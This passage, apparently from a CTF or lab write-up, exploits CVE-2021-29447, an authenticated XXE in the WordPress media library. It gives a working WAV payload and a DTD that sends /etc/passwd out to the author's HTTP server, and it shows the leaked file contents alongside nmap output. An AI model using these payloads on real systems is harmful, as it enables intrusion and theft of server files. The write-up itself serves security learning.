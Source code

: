   ```sh linenums="1" hl_lines="6 11 15"
    |   Some Capabilities: SupportsTransactions, Support41Auth, Speaks41ProtocolOld, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, InteractiveClient, LongColumnFlag, SwitchToSSLAfterHandshake, IgnoreSigpipes, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, FoundRows, ODBCClient, SupportsCompression, LongPassword, Speaks41ProtocolNew, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
    |   Status: Autocommit
    |   Salt: Av2C[)\x12R\x12N-<\x1BIw\x1F\x1E\x13g_
    |_  Auth Plugin Name: mysql_native_password
    |_ssl-date: TLS randomness does not represent time
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 29.21 seconds
  ```

## <b>Exploiting CVE-2021-29447</b>

The vulnerability identified in CVE-2021-29447 pertains to an **Authenticated XXE Within the Media Library Affecting PHP 8**. To exploit this vulnerability, I followed the instructions provided and created a WAV media file that could be uploaded in the WordPress dashboard under the media library section. 

<img id="image1" />

This can be created as follows:

!!! bug "payload.wav File Payload"
    ```dtd
    echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version='1.0'?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '''''http://10.17.3.217:8000/NAMEEVIL.dtd'''''>%remote;%init;%trick;]>\x00' > payload.wav
    ```


Once uploaded, I was able to use this file to establish a connection back to my HTTP server and execute an XXE attack by including `/etc/passwd` without proper validation, thereby accessing sensitive data on the targeted system. For this purpose, I also created a custom file called `NAMEEVIL.dtd`, which connected to the server and provided content in encoded base64 form.

!!! bug "NAMEEVIL.dtd" 
    ```dtd
    <!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.17.3.217:8000/?p=%file;'>" >
    ```

<img id="image2" />

 By decoding the `/etc/passwd` file, I was able to successfully exploit the vulnerability.

 ```sh linenums="1" hl_lines="27"
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
 ```